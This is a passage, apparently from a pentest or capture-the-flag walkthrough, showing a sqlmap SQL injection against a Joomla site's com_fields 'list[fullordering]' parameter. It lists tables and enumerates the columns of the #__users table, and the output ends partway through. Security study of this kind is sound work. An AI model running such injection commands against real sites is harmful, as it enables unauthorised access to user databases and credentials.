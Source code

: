 \| #\_\_ucm\_history |

\| #\_\_update\_sites\_extensions |

\| #\_\_update\_sites |

\| #\_\_updates |

\| #\_\_user\_keys |

\| #\_\_user\_notes |

\| #\_\_user\_profiles |

\| #\_\_user\_usergroup\_map |

\| #\_\_usergroups |

\| #\_\_users |

\| #\_\_utf8\_conversion |

\| #\_\_viewlevels |

\+----------------------------+

\[snip...]

**Enumberate columns of "#\_\_users" table**

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering]" -T "#\_\_users" -D joomla --columns

\[snip...]

do you want to use common column existence check? \[y/N/q] y

which common columns (wordlist) file do you want to use?

\[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)

\[2] custom

\> 1

please enter number of threads? \[Enter for 1 (current)] 10

\[snip...]

Database: joomla

Table: #\_\_users

\[6 columns]

\+----------+-------------+

\| Column | Type |

\+----------+-------------+

\| email | non-numeric |

\| id | numeric |
